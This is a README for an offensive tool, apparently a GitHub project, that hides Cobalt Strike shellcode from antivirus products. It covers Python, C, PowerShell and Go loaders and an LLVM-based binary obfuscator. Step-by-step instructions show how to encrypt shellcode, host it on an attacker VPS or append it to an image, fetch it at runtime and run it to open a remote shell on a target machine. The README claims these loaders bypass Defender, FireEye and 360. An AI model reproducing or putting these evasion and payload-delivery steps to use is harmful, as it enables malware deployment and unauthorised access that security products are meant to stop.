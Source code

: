 # CS-Avoid-killing
![Chinese README](https://github.com/Gality369/CS-Loader/blob/master/README.md)

Overall, malware identification through the application's binary feature strings is still the most commonly used static analysis by antivirus software, while dynamic analysis (sandboxing, virtual machines, etc.) can be bypassed by anti-debugging, anti-sandboxing, and other techniques, so minimizing the binary features of a malicious program is still an important means of avoiding detection and killing.

CS evasion, including both Python and C versions (Tested: Python packaged version has bugs on Windows 10, not working, but works fine on Windows 7)

In addition to using a specific language to obfuscate binary features, it is also possible to implement a generic obfuscator to obfuscate arbitrary programs at the binary level. The generic obfuscator implemented in this project is an LLVM-17 based obfuscator that takes advantage of LLVM's new pass implementation plug-in feature to enable code obfuscation for multiple languages and platforms.

- V4.0: A general-purpose code obfuscator has been implemented, which can obfuscate the binary of any program with the help of LLVM, and is theoretically a general-purpose method to fight against antivirus static scanning. The Generic_obfuscator is a rewrite of obfuscator ref: https://github.com/obfuscator-llvm/obfuscator

- V3.1 Added Go version (can bypass FireEye/360/Defender).

- V3.0: Attempting to integrate more evasion techniques (planning to research process injection/file bundling to see how well they evade protection).

- V2.0: Developed an online evasion platform (Completed)

> PS: In practical use, I found that a graphical interface is not ideal for integration with other tools, while command-line interfaces are more flexible and extensible.
> 
> Regarding my online evasion platform, I don't plan to open-source it at this time because the technology is still in its early stages. If anyone is interested in trying it out, feel free to contact me.

- ~~V2.0: Develop a graphical user interface~~

- V1.7: Added PowerShell evasion (Completed)


- V1.5: Added C version of CS evasion (Completed)

- V1.0: Currently, it can bypass Defender/FireEye's static and dynamic protection. 360 hasn't been tested yet. I don't want to install the full 360 suite, but you can test it yourself.

## Dependencies

Generic Obfuscator:

- llvm-17：
```
git clone --depth 1 -b release/17.x https://github.com/llvm/llvm-project.git
mkdir build
cmake -G Ninja -DLLVM_ENABLE_PROJECTS="clang;lld" -DLLVM_TARGETS_TO_BUILD="X86;ARM;AArch64" -DCMAKE_BUILD_TYPE=Release -DLLVM_INCLUDE_TESTS=OFF -DLLVM_ENABLE_RTTI=ON -DLLVM_OBFUSCATION_LINK_INTO_TOOLS=
ON -DCMAKE_INSTALL_PREFIX=./build/ ../llvm-project/llvm
ninja -j8
ninja install
```

Python:

- Python 2
- PyInstaller
- Requests

C: VS2019 should be sufficient

PowerShell: Tested on Windows 10 (PS 5.1), lower versions haven't been tested.

Go: Go

## Installation

Other versions are portable to use, just clone the project.
`git clone https://github.com/Gality369/CS-Avoid-killing.git`

Howerver, Generic_bfuscator need additionally installation：
```
cd Generic Obfuscator
mkdir build
cd build
cmake ..
make -j `nproc`
```

## Usage
1. First, generate a C-format shellcode through CS:
`Attacks -> Packages -> Payload Generator`
Choose a listener and generate a C shellcode (essentially binary code).

2. Python version:

   > 1. Paste the generated shellcode into the shellcode variable in generator.py and provide a Key for RC4 encryption.
   > 2. Run generator.py, the generated payload will be saved in payload.txt.
   > 3. Upload payload.txt to your VPS. The loader will fetch the encrypted shellcode from the VPS and decrypt it locally for execution.
   > 4. In PyLoader.py, fill in the path to the payload on your VPS and the Key you just set.
   > 5. Package the file using `python pyinstaller.py -F -w PyLoader.py`. The executable will be in the dist folder inside the pyshellcode directory. Double-click to run and the host will go online.

3. C version:

   > 1. Input your own Key, shellcode length, and shellcode as required, then execute.
   > 2. Copy the first line's number into the Base64ShellLen field in Loader, save the generated encrypted shellcode in payload.txt, and place it on the server. If the filename or path is different, modify the path in `char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";` accordingly.
   > 3. In path, fill in the path to access the payload (e.g., /test/payload.txt).
   > 4. Fill in your Key and VPS IP in Loader, then compile.
   > 5. Run the compiled .exe to bring up the CS shell.

4. PowerShell version:

   > 1. Generate a PowerShell payload .ps1 in CS.
   > 2. Run Python3 PSconfusion.py payload.ps1 AVpayload.ps1.
   > 3. This version can bypass all static detections from current antivirus software. For dynamic detections, some CS modules may trigger detection when loading, and that will be explored further later.

5. Go version:

   > 1. Place a not-too-large image in the same folder.
   > 2. Paste the generated shellcode into the shellcode variable in generator.py, and execute `python generator YourRC4key ImageName`. The shellcode will be appended to the end of the image.
   > 3. Upload the image to an image hosting service (choose one that does not compress images to ensure the shellcode remains intact).
  > 4. Enter the image URL and your RC4 key into the corresponding fields in CS-Loader.go.
   > 5. Build the .exe using the command `go build -ldflags="-H windowsgui" CS-Loader.go` (you can compress it with UPX).
   > 6. Run the .exe and the CS shell will be active.

6. Generic Obfuscator Version：
   
   > 1. set `config/config.json` to enable different functions. (Please check `Generic_obfuscator/README.md` to get more information.)
   > 2. run `<your-clang-17> -fpass-plugin=<your-generic_obfuscator.so>`

## Notes

1. PyInstaller Installation Details:

   > The last version of PyInstaller that supports Python 2 is 3.6 (newer versions no longer support Python 2).
   > 
   > Website: https://github.com/pyinstaller/pyinstaller/releases
   > 
   > You also need to install pywin32: https://github.com/mhammond/pywin32

2. Package in the target environment to avoid issues with different systems. Avoid using Python 3 for this project due to poor support for ctypes in Python 3, which can cause random bugs.
   Thanks to KingSF5 for fixing the Python 3 version (greatly appreciated~).

3. C version testing:
The C version works fine under X86Debug mode. In Release mode, there are unexplained bugs, and it may not work properly on some machines. Please test according to your needs.

4. Do not select dynamic compilation, as it may cause the program to fail to run due to missing DLLs on the target machine.

5. The method of loading PowerShell scripts is not discussed here, but some experts have already documented it well. Please search for it on Baidu.

6. Before building the Go version, it is recommended to run `set GOARCH=amd64` and use a 64-bit shellcode. A 32-bit build may lead to errors related to missing functions in ntdll.dll, as reported by others:
https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386

7. For a detailed description of Generic Obfuscator, please refer to `Generic_obfuscator/README.md`, which provides a detailed description of the obfuscator and how to use it.
